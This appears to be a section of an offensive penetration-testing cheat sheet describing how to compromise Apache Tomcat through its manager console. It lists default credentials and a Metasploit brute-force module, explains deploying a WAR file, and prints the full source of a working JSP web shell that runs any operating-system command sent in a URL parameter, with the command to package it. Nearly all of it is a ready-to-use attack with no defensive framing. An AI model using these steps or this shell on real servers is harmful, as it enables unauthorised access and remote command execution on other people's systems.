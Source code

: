 #### Technique 2. Webshell upload using an APACHE TOMCAT manager Web console
```
➤ Step 1. Log into the Tomcat manager Web console by exploiting the presence of default or easy guessable credentials,
	   anonymous access or by performing a brute-force or dictionnary password attack using Burp proxy or Metasploit (use auxiliary/scanner/http/tomcat_mgr_login)
	   - URL: http://x.x.x.x/:8080/manager/html or http://x.x.x.x/website-name/manager, ...)
	   - Default or weak credentials: tomcat:tomcat, tomcat:manager, manager:manager, admin:manager, xampp:xampp, ...
	  
➤ Step 2. Upload and deploy your WAR file 
           (i.e. "Select WAR file to upload" and then click on the "Deploy" button)

➤ Step 3. Then go to the application section to see the details about your new deployed application (e.g. path, start/stop/reload/undeploy buttons etc.)

➤ Step 4. Execute OS commands using the Webshell 
           - Examples: 
	     + http://target_IP:port/<path>/webshell.jsp?cmd=whoami
	     + http://target_IP:port/webshell/webshell.jsp?cmd=whoami
```
 
##### <i>Example - How to create a WAR file</i>
```
1. Choose a Web shell (.jsp)

	<%@ page import="java.util.*,java.io.*"%>
	<%
	%>
	<HTML>
	<TITLE>JSP Shell</TITLE>
	<BODY>
	Note: Against Windows you may need to prefix your command with cmd.exe /c
	</br></br>
	JSP Command:
	<FORM METHOD="GET" NAME="myform" ACTION="">
	<INPUT TYPE="text" NAME="cmd">
	<INPUT TYPE="submit" VALUE="Execute">
	</FORM>
	<PRE>
	<%
	if (request.getParameter("cmd") != null) {
	out.println("Command: " + request.getParameter("cmd") + "<BR>");
	Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
	OutputStream os = p.getOutputStream();
	InputStream in = p.getInputStream();
	DataInputStream dis = new DataInputStream(in);
	String disr = dis.readLine();
	while ( disr != null ) {
	out.println(disr);
	disr = dis.readLine();
	}
	}
	%>
	</PRE>
	</BODY>
	</HTML>

2. Generate a WAR file with the web shell : "jar -cvf webshell.war webshell.jsp"
3. Upload the WAR file to a Web server such as Tomcat, Websphere, Weblogic, JBoss etc.
```
